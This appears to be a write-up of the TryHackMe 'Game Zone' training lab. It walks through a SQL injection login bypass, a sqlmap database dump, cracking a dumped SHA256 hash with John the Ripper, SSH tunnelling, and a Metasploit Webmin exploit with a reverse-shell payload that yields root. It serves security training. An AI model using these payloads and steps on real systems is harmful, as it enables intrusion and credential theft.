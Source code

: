 ## TryHackMe Game Zone

Task 1: Deploy the vulnerable machine

IP: 10.10.241.186

```
Nmap scan report for 10.10.241.186
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Task 2: Obtain access via SQLi

- SQL is the standard language for storing, editing, and retrieving data in databases. A query can look like so:
- 	SELECT * FROM users WHERE username = :username AND password := password

In the Game Zone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

By using a SQL injection: ' or 1=1 -- - , as the username and nothing as the password. I authenticates me.

This directs me to portal.php, I am now authenticated using the command. 


Task 3: Using SQLMap

SQLMap is an automatic SQL injection and database takeover tool. 

So the query packet can be intercepted and saved as request.txt or any file name.

```
$ sqlmap -r  /home/joey/ctf/tryhackme/rooms/game\ zone/sql-injection/request.txt --dbms=mysql --dump               

[22:51:45] [INFO] parsing HTTP request from '/home/joey/ctf/tryhackme/rooms/game zone/sql-injection/request.txt'
[22:51:45] [INFO] testing connection to the target URL
[22:51:45] [INFO] checking if the target is protected by some kind of WAF/IPS                                                     
[22:51:45] [INFO] testing if the target URL content is stable
[22:51:46] [INFO] target URL content is stable
[22:51:46] [INFO] testing if POST parameter 'searchitem' is dynamic        
[22:51:46] [WARNING] POST parameter 'searchitem' does not appear to be dynamic

-- SNIP --
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[22:58:41] [INFO] table 'db.users' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/users.csv'
[22:58:41] [INFO] fetching columns for table 'post' in database 'db'
[22:58:41] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[22:58:41] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name| description|
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11| Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.|
| 2  | Marvel Ultimate Alliance 3 | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005 | Best game ever|
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[22:58:41] [INFO] table 'db.post' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/post.csv'
[22:58:41] [INFO] fetched data logged to text files under '/home/joey/.local/share/sqlmap/output/10.10.241.186'

[*] ending @ 22:58:41 /2021-11-24/
```

Task 4: Cracking a password with JohnTheRipper

John the Ripper (JTR) is a password cracker. 

This program works by taking a wordlist and hashing it with a specified algorithm, The encoded password is Sha256.
```
$ john password_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Created directory: /home/joey/.john

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:01 DONE (2021-11-25 00:01) 0.7299g/s 2128Kp/s 2128Kc/s 2128KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed


$ cat john.pot
$SHA256$ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124


$ ssh agent47@10.10.241.186

The authenticity of host '10.10.241.186 (10.10.241.186)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.241.186' (ED25519) to the list of known hosts.
agent47@10.10.241.186's password: 

user.txt
agent47@gamezone:~$ la
.bash_history  .bash_logout  .bashrc  .cache  .profile  user.txt
agent47@gamezone:~$ cat user.txt 
649ac17b1480ac13ef1e4fa579dac95c
agent47@gamezone:~$ 
```

Task 5: Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specified that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Goint to localhost:9000 on your machine, will load imgur traffic using your other server. 

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to other server for others to view. 

```
$ ss
```

This tool is used to investigate sockets running on a host.

```
	$ ss -tulpn
	Netid	State		Recv-Q 	Send-Q	Local Address:Port	Peer Address:Port              
	udp		UNCONN		0		0		*:10000				*:*
	udp		UNCONN		0		0		*:68				*:*      
	tcp		LISTEN		0		80		127.0.0.1:3306		*:*
	tcp		LISTEN		0		128		*:10000				*:*
	tcp		LISTEN		0		128		*:22				*:*
	tcp		LISTEN		0		128		:::80				:::*
	tcp		LISTEN		0		128		:::22				:::*
```

There is an exposed port at 10000. This is inaccessible from the local machine so I can tunnel it back to the local machine with an SSH tunnel.

```
	$ ssh -L 10000:localhost:10000 agent47@10.10.241.186

	$ firefox 10.10.241.186:10000

```

I can login with the agent47 username and password.


Task 6: Privilege Escalation with Metasploit

For this part I needed to use the searchsploit to find relevant exploits.
```	
$ searchsploit webmin 1.580
---------------------------------------------------------------------------
 Exploit Title	|  Path

Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)| unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit) | /webapps/47330.rb


$ msfconsole 

search webmin

Matching Modules
================

   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution

$ use exploit/unix/webapp/webmin_show_cgi_exec

$ set RHOSTS 127.0.0.1
$ set LHOST tun0
$ set payload cmd/unix/reverse
$ set SSL false

$ exploit

whoami
root
cd /root/
cat root.txt
a4b945830144bdd71908d12d902adeee
```

## Complete

